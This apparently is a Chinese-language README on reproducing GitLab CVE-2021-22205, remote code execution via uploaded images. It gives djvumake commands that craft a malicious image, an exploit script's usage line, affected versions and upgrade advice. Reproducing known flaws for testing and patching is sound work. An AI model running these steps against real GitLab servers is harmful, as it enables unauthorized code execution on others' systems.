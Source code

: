 
## Gitlab-CVE-2021-22205

## 概述

Gitlab 登录用户上传扩展名为```jpg|jpeg|tiff```的文件可能引发RCE。

## 复现

[复现](https://www.cnblogs.com/ybit/p/14918949.html)

环境：Centos

生成过程：

可以使用附件中的rce.txt修改payload:

	yum install djvulibre
	djvumake rce.djvu INFO=0,0 BGjp=/dev/null ANTa=rce.txt && mv rce.djvu rce.jpg

也可以直接附件中的修改rce.jpg。

上传图片

![](1.png)

也可以直接利用[工具](https://github.com/mr-r3bot/Gitlab-CVE-2021-22205)

	python3 exploit.py -u <username> -p <password> -t <gitlab_url> -c <command>

## 影响版本

[影响版本](https://gitlab.com/gitlab-org/cves/-/blob/master/2021/CVE-2021-22205.json)

## 修复建议

建议用户将GitLab社区版（CE）和企业版（EE）版本升级至13.10.3、13.9.6和13.8.8进行防护。

## reference

[hackerone报告](https://hackerone.com/reports/1154542)

[原理-ExifTool CVE-2021-22204](https://devcraft.io/2021/05/04/exiftool-arbitrary-code-execution-cve-2021-22204.html)

